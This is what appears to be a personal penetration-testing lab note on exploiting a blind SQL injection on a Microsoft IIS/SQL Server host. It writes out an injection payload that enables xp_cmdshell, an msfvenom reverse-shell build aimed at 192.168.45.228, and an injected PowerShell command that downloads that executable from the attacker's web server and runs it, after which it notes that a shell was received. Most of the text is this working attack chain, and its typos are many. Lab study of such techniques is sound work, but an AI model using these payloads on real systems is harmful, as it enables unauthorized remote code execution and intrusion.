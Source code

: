 Found my old notes and can continue, want to learn the newer concepts. Actuall first, lets figure out how I would know the system using this injections.. From the new research I have not found to OS of this box

Well, breezing thru the old notes, just seeing the fact that it is an Microsoft IIS should be enough to google and find something along the lines of enable remote code execution.

Now I see I arrived here by researching how to exploint the blind injection founnd [[SLQ Injection found]]. To enable the xp_command shell needs to be renabled as shown [[#Injection]]


# injection
Enabeling xp_cmdshell
```sql
1';EXEC sp_configure 'show advanced options', 1;RECONFIGURE;EXEC sp_configure 'xp_cmdshell', 1;RECONFIGURE--
```

Generate rev shell payload

```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.45.228 LPORT=4444 -f exe > reverse121.exe

```

Starting web server on host
```bash
' EXECUTE xp_cmdshell 'powershell.exe Invoke-WebRequest "http://192.168.45.228:8888/reverse.exe" -OutFile "C:\Users\Public\Downloads\reverse.exe";C:\Users\Public\Downloads\reverse.exe'--
```

Shell recived on to [[121 Priv esc]]